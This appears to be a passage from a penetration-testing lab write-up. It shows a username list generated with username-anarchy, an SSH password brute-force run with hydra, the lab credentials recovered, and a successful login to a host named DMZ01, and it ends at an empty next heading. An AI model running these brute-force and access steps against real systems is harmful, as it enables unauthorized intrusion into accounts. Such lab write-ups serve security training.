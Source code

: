 ### Login Brute Forcing

```
┌──(nabla㉿kali)-[~]
└─$ username-anarchy Betty Jayde | tee betty.txt

betty
bettyjayde
betty.jayde
bettyjay
bettjayd
bettyj
b.jayde
bjayde
jbetty
j.betty
jaydeb
jayde
jayde.b
jayde.betty
bj
```

```
┌──(nabla㉿kali)-[~]
└─$ hydra -L betty.txt -p 'Texas123!@#' ssh://10.129.35.253

[SNIP]

[22][ssh] host: 10.129.35.253   login: jbetty   password: Texas123!@#
```

```yaml
credentials:
    username: jbetty
    password: 'Texas123!@#'
    host: 10.129.35.253 (DMZ01)
    port: 22 (SSH)
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh jbetty@10.129.35.253

jbetty@10.129.35.253's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

[SNIP]

jbetty@DMZ01:~$
```

### Internal Information Gathering

